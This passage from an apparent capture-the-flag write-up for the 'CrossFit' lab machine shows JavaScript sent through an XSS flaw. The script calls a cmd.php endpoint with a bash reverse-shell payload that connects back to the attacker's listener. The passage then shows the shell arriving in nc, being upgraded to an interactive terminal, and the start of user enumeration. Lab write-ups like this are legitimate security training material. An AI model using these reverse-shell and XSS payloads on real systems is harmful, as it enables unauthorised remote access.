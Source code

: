 

Unfortunately, I can't reach it. I wonder if it's only available from
inside just like FTP? The JavaScript is simple, just one request:



    var req = new XMLHttpRequest();
    req.open("GET", "http://development-test.crossfit.htb/cmd.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.11/443+0>%261'", false);
    req.send()



I'll send the XSS request to trigger it, see it requested from Python
webserver, and a shell arrives at `nc`:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.208.
    Ncat: Connection from 10.10.10.208:35308.
    bash: cannot set terminal process group (695): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@crossfit:/var/www/development-test$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



I'll upgrade my shell:



    www-data@crossfit:/home$ python3 -c 'import pty;pty.spawn("bash")'
    www-data@crossfit:/home$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@crossfit:/home$



## Shell as hank

### Enumeration

There are two users on this box:



    www-data@crossfit:/home$ ls
    hank  isaac



I can see into the root of each directory (`hank` has `user.txt`), but
can't read anything.
